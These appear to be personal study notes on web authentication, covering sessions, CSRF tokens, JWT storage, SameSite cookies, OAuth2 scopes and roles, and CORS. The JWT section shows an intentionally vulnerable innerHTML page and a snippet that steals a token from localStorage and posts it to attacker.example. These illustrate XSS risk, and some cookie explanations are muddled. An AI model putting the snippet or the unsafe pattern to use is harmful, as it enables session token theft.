

### Sessions based auth:
    - Basics: 
        - After login, user gets a sessionid embedded in their cookies 
        - Sessionid is also stored in the database (has its own table)
        - The user must send the sessionid in the cookies everytime they make a request to authenticate
        - When server gets the sessionid, it checks if the sessionid is in the sessions table and authenticates the user if it is; thus the operation is stateful/not serverless.
        - When calling logout, the sessionid data in the db is removed
        - The downside of sessions is then it doesn't scale well; if there are many users then many database reads become inevitable
    - Security:
        - To mitigate CSRF, the server can/will also send an extra cookie called csrftoken when user logs in
        - The user must also send this csrftoken everytime they make a request (on top of the sessionid). 
          - Most online tutorials illustrate this only for POST requests, by sending it as a hidden field in the body of the form that is submitted. 
          - However, there are many other ways this can be done (e.g. sending it as a header with a specific name, which is what Django requires).
        - You can set the server to make the csrftoken per sessionid, or refresh it on every request
### JWT based auth:
    - After login, user gets an access and refresh token in the response body
    - Users then need to embed this token as header with value Authorization: Bearer
    - When server gets this, they will use some algorithm to decode the token and authenticates user if token is valid and not yet expired  
    - Since an algorithm is used to check the token, the approach is serverless (no db reads) and thus scales well
    - if token expires, client can create a middleware to catch 401, send refresh token, get a new access token, and retry the request
    - JWT is a way of encoding a token. Other alternatives include having opaque tokens, CWT (cbor web tokens, RFC-8392), etc             
##### Where to store JWT
    - Either in cookies or headers (but for cookies only as a HttpOnly cookie, and also samesite=lax or none with secure=True and CSRF token, see below for more info)
    - Storing in localstorage as Auth Bearer (like in section above) and making the frontend load it and send as header to backend has many differences over sending it over httponly cookies:
      - Storing in localstorage or a non-HttpOnly cookie makes it vulnerable by XSS attacks, since `localStorage.getItem('access_token') or document.cookie can be used to get the token like this (only shown for localstorage):
      ```
        <!-- vulnerable.html (unsafe pattern) -->
        <html>
              <body>
            <form method="GET" action="/search">
              <input name="q" placeholder="Search...">
              <button>Search</button>
            </form>

            <p>Results for: <span id="result"></span></p>
        
            <script>
              // BAD: inserting unsanitized user input as HTML
              const params = new URLSearchParams(window.location.search);
              const query = params.get("q") || "";
              // This will interpret any HTML in `query`
              document.getElementById("result").innerHTML = query;
            </script>
          </body>
        </html>
      ```
      
      and the query is like this:
      ```
        // attacker JS running in victim's page
        const token = localStorage.getItem('access_token');        // attacker reads token
        // exfiltrate it
        fetch('https://attacker.example/steal', { method:'POST', body: token });
      ```
      
      - Store in httponly cookies makes it not vulnerable against XSS, but it is then vulnerable to CSRF attacks, unless you set samesite=lax or none with secure=True and CSRF token. Explanation:
        - Samesite property of a cookie explanation: It determines whether a cookie should be sent to other sites other than any host that issued the cookie (i.e. cross site), depending on the type of request (safe like GET or unsafe like POST). Secure means the cookie will only be sent if it was sent by a website with the same host as the backend/receiver, no matter if it is safe or unsafe request. Lax means if you have a cookie issued by B.com, you are in A.com and clicks a link to B.com (i.e. top level redirection), then the cookie is included. But if you are making a POST request to B.com through a form in A.com, then it won't be included. If you set None, but without secure=True, then modern browsers will not send the cookie at all whether it is a redirection or a form. If you use secure=True, then it will be included by the browser, for both top level redirect or even form (i.e. POST/unsafe requests), but only if it is sent through HTTPS. Thus, samesite=None even with secure=True still allows unsafe requests from cross site, making it possible for an attacker.com to change the backend.
        - So, if your cookie is Samesite=None, it is not possible to securely send an unsafe request without any extra actions. To make it possible to securely send a unsafe request, use CSRF Token. This token would be generated by your backend when logging in, and can be set in localStorage by frontend. When making form requests, the frontend will also need to read it from localSTorage and set it as a X-CSRF-TOKEN header for the form request to be successful. CSRF Token is then not relevant for lax or secure cookies (since it is by definition cannot make POST request to cross sites!).
        
### OAuth:
    - OAuth is a specification for an authorization protocol/flow (i.e. specifying what a principal, that is, a user or service, can do to a resource in a particular server)
    - Thus comparing it with JWT is like comparing apples and oranges; they are different things
    - There are 3 key players:
      - The client (e.g. web app) requesting access to a resource in a server
      - The authorization server (determines whether the client can access the resource and gives access)
      - The server containing the resource itself
    - Simple guide to understand the above https://darutk.medium.com/the-simplest-guide-to-oauth-2-0-8c71bd9a15bb
    - There are 5 different authorization flows (only 4 shown here):
    
    Read the following article, very useful: https://darutk.medium.com/diagrams-and-movies-of-all-the-oauth-2-0-flows-194f3c3ade85
    - We have done the password one with VFM
        - But even with this one we didn't really have a separate web app (the frontend of VFM don't really count as a separate web app I think)
        - The OAuth protocol is actually made to replace this way of authorizing (since now the web app now knows the username and password of the user's backend resource); but it was made here for backwards compatibility
        - The protocol really is made to control the scope of the web app's access to the user's resource and credentials, instead of controlling the user itself
        - The protocol exchanges tokens, yet in our VFM implementation it was stateful (so not like JWT) since the tokens are stored in the database (remember django auth toolkit tables?) But you can indeed use JWT tokens (so sign the token with the data inside it); but the toolkit we used don't support it.
        - The tokens internally also contains the scope (i.e. which resources can the token access); even without using JWT; if the token is used to e.g. access an admin endpoint, you will be unauthorized

### OAuth2 scopes, Groups, Roles, Permissions, explanation

After my studying, here is a summary of how OAuth2 Scopes can wors with in tandem with Groups and Roles (RBAC) security:
0. There are 3 actors here: clients, a backend/resource server and a auth server
1. A scope is a permission to interact with a certain resource in the Resource Server (e.g. `view:food`)
2. An OAuth2 client (i.e. an `Application` in `Django-oauth-toolkit`) has a particular set of scopes to interact with
   the resources in the Resource Server (e.g. `view:food view:car`); this is set by the backend server and is to be registered in the authorization server; the auth server will then need to be updated if there are new resources made and is to be protected.
3. Depending on `grant_type` selected during client registration, the OAuth2 client can be one that supports Groups and Roles and Users concept (RBAC)
   (e.g. a frontend client that uses `password` grant type (remember vfm2 angular)). The users are grouped into Groups with specific Roles
   and get specific Permissions (i.e. scopes) within their roles, by the authorization server. But this need not be the case for all clients (e.g. `client-credentials` grant type does
   not know the concept of RBAC).
3. Thus for the frontend client, we have the hierarchy Groups -> Roles -> Permissions (i.e. scopes). Therefore the authserver will assign to a user a group with specific roles and specific scopes (i.e. permissions) belonging to their specific role, in which these
   scopes must be a subset of all the scopes available for the application (which was defined in step 2).
4. For the `client-credentials` client, the authserver will assign directly scopes and send back the JWT token with the scopes for it (no groups/roles since it is not known concept to that client!)
5. Thus, scopes are there to auto-restrict access granularly to resources in the backend by default, irrespective of whether the client application knows of the concept of the user or roles or groups, while the groups and roles are to support additional restrict access in the client application that require this concept (e.g. the roles are used in the frontend to hide certain UI elements or groups to hide certain test executions; this info is sent inside the JWT token by the backend).
   - Although, it can also indeed be used to restrict access to more resources in the backend (e.g. our groups filtering; remember we had TokenHasView attribute in our viewset that restricts the incoming user if their token has no e.g. view:food, delete:food, add:food, edit:food scopes, but inside the list() or get() method, we did filter further whether the user is in a particular group!). But the main idea is not this.

### Misc.:
  - CORS:
    - In short: cross domain requests should not be allowed by default.
    - On every request, we always send a header called ORIGIN that indicates our hostname (e.g. `localhost:9000`, `google.com`)
    - The server will need to check this origin against a list of origins it allows (e.g. ACCESS_CONTROL_ALLOW_ORIGIN of Django)
    - If ok, then the server will send its response, with ACCESS_CONTROL_ALLOW_ORIGIN and its value in the header
      - If response doesn't allow, then this header will be missing, and our modern browser will not want to display the data
